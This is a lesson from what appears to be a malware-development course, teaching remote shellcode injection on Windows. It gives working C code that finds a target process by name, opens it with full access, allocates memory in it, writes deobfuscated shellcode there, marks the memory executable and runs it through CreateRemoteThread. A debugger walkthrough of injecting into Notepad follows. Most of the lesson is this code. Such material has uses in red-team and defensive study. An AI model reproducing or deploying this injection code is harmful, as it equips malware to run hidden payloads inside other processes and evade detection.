 29. Process Injection - Shellcode Injection# [**29. Process Injection - Shellcode Injection**](https://maldevacademy.com/modules/29)

## **Process Injection - Shellcode Injection**

### **Introduction**

This module will be similar to the previous DLL Injection module with minor changes. Shellcode process injection will use almost the same Windows APIs to perform the task:

* [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) - Memory allocation.
* [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) - Write the payload to the remote process.
* [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) - Modifying memory protection.
* [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) - Payload execution via a new thread.

### **Enumerating Processes**

Similarly to the previous module, process injection starts by enumerating the processes. The process enumeration code snippet shown below was already explained in the previous module.


```
BOOL GetRemoteProcessHandle(LPWSTR szProcessName, DWORD* dwProcessId, HANDLE* hProcess) {

	// According to the documentation:
	// Before calling the Process32First function, set this member to sizeof(PROCESSENTRY32).
	// If dwSize is not initialized, Process32First fails.
	PROCESSENTRY32	Proc = {
		.dwSize = sizeof(PROCESSENTRY32)
	};

	HANDLE hSnapShot = NULL;

	// Takes a snapshot of the currently running processes
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE){
		printf("[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	// Retrieves information about the first process encountered in the snapshot.
	if (!Process32First(hSnapShot, &Proc)) {
		printf("[!] Process32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {

		WCHAR LowerName[MAX_PATH * 2];

		if (Proc.szExeFile) {
			DWORD	dwSize = lstrlenW(Proc.szExeFile);
			DWORD   i = 0;

			RtlSecureZeroMemory(LowerName, MAX_PATH * 2);

			// Converting each charachter in Proc.szExeFile to a lower case character
			// and saving it in LowerName
			if (dwSize < MAX_PATH * 2) {

				for (; i < dwSize; i++)
					LowerName[i] = (WCHAR)tolower(Proc.szExeFile[i]);

				LowerName[i++] = '\0';
			}
		}

		// If the lowercase'd process name matches the process we're looking for
		if (wcscmp(LowerName, szProcessName) == 0) {
			// Save the PID
			*dwProcessId = Proc.th32ProcessID;
			// Open a handle to the process
			*hProcess    = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
			if (*hProcess == NULL)
				printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());

			break;
		}

	// Retrieves information about the next process recorded the snapshot.
	// While a process still remains in the snapshot, continue looping
	} while (Process32Next(hSnapShot, &Proc));

	// Cleanup
	_EndOfFunction:
		if (hSnapShot != NULL)
			CloseHandle(hSnapShot);
		if (*dwProcessId == NULL || *hProcess == NULL)
			return FALSE;
		return TRUE;
	}

```
### **Shellcode Injection**

To perform shellcode injection the `InjectShellcodeToRemoteProcess` function will be used. The function takes 3 parameters:

1. `hProcess` - A handle to the opened remote process.
2. `pShellcode` - The deobfuscated shellcode's base address and size. The shellcode must be in plaintext before being injected because it cannot be edited once it's in the remote process.
3. `sSizeOfShellcode` - The size of the shellcode.

### **Shellcode Injection - Code Snippet**


```
BOOL InjectShellcodeToRemoteProcess(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode) {

	PVOID	pShellcodeAddress              = NULL;

	SIZE_T	sNumberOfBytesWritten          = NULL;
	DWORD	dwOldProtection                = NULL;


	// Allocate memory in the remote process of size sSizeOfShellcode
	pShellcodeAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pShellcodeAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	// Write the shellcode in the allocated memory
	if (!WriteProcessMemory(hProcess, pShellcodeAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[i] Successfully Written %d Bytes\n", sNumberOfBytesWritten);

	memset(pShellcode, '\0', sSizeOfShellcode);

	// Make the memory region executable
	if (!VirtualProtectEx(hProcess, pShellcodeAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtectEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}


	printf("[#] Press <Enter> To Run ... ");
	getchar();
	printf("[i] Executing Payload ... ");
	// Launch the shellcode in a new thread
	if (CreateRemoteThread(hProcess, NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[+] DONE !\n");

	return TRUE;
}

```
### **Deallocating Remote Memory**

[VirtualFreeEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualfreeex) is a WinAPI that is used to deallocate previously allocated memory in a remote process. This function should only be called after the payload has fully finished execution otherwise it might free the payload's content and crash the process.


```
BOOL VirtualFreeEx(
  [in] HANDLE hProcess,
  [in] LPVOID lpAddress,
  [in] SIZE_T dwSize,
  [in] DWORD  dwFreeType
);

```
`VirtualFreeEx` takes the same parameter as the `VirtualFree` WinAPI with the only difference being that `VirtualFreeEx` takes an additional parameter (`hProcess`) that specifies the target process where the memory region resides.

### **Debugging**

In this section, the implementation is debugged using the xdbg debugger to further understand what is happening under the hood.

This walkthrough injects shellcode into a Notepad process therefore start by opening up Notepad and attaching the x64 xdbg debugger to it. The image below shows the process has PID `22992`.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-1.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-1.png)Run `RemoteShellcodeInjection.exe` providing notepad.exe as an argument. The binary will start by searching for the PID of Notepad which should be the same PID shown in the xdbg debugger, which in this case is `22992`.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-2.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-2.png)Next, the binary will decrypt the payload. Notice that attempting to access the memory address will result in an error. The reason this happens is because the debugger is attached to the `notepad.exe` process whereas the deobfuscation process occurs in the local process which is `RemoteShellcodeInjection.exe`.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-3.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-3.png)To view the deobfuscated payload, a new instance of xdbg must be opened and attached to the `RemoteShellcodeInjection.exe` process.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-4.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-4.png)Back to the Notepad debugger instance, the next step is memory allocation. The base address where the payload will be written is `0x0000021700230000`. The debugger shows that the allocated memory region was zeroed out.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-5.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-5.png)The deobfuscated payload is then written to the allocated memory region in the remote process.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-6.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-6.png)Analyzing the local process, the payload was successfully zeroed out since it is not required anymore.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-7.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-7.png)Finally, the payload is executed in the remote process inside of a new thread.

[![](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-8.png)](29%20Process%20Injection%20-%20Shellcode%20Injection%20462956fe40674d56baa665523f37bdf2/remote-shellcode-injection-8.png)